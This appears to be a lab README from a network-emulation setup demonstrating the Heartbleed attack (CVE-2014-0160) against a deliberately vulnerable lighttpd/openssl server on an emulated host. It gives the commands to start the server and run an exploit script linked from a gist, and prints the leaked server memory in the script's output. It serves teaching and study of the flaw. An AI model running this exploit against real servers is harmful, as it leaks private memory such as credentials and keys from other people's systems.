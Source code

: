 # Heartbleed attack

This example covers the Heartbleed attack. The vulnerable https server is setup
on the host node (10.0.1.10/24).

## Starting the vulnerable server
Start the experiment specified in `service.imn` and issue the
[start_https.sh](start_https.sh) command to start the https server on the host
node:
```console
# ./start_https.sh
```
After executing the command check with the `ps` and `netstat` commands whether
the https server is running on the host node.
```console
root@host:/ # ps ax
 PID TT  STAT    TIME COMMAND
 9733 ??  IsJ  0:00.00 rpcbind
 9735 ??  IsJ  0:00.00 inetd
 9895 ??  SJ   0:00.00 lighttpd -f /usr/local/etc/lighttpd/lighttpd.conf
 9897  2  SJ   0:00.01 csh
 9911  2  R+J  0:00.00 ps ax
root@host:/ # netstat -anfinet
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 *.443                  *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.111                  *.*                    LISTEN
udp4       0      0 *.618                  *.*                    
udp4       0      0 *.111                  *.*      
```

## Executing the attack
On the virtual nodes we have previously deployed a vulnerable version of openssl
and lighttpd. The script [heartbleed.sh](heartbleed.sh) is used to execute the
attack. It copies the [heartbleed.py](heartbleed.py) script on the Attacker node
and executes it. The python script used to exploit the server can be found
[here](https://gist.github.com/eelsivart/10174134).

The execution result is as follows:
```console
# ./heartbleed.sh
defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed
(CVE-2014-0160)
##################################################################
Connecting to: 10.0.1.10:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.0.1.10:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################
.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......pt-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive

....h.F __..3.R..h
```

If the heartbleed script is ran repeatedly without the server actually
processing new data the output will be the same. If we issue external requests
from the PC node, we force the server to process some data and that causes a
change in the leaked part of memory:
```console
# himage PC wget -r --no-check-certificate https://10.0.1.10/
```

After issuing the request we can see that the output of the heartbleed script
changes:
```console
% sudo ./heartbleed.sh
defribulator v1.16
...
##################################################################
.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#........\.>.H....m..W.\...U....K
```
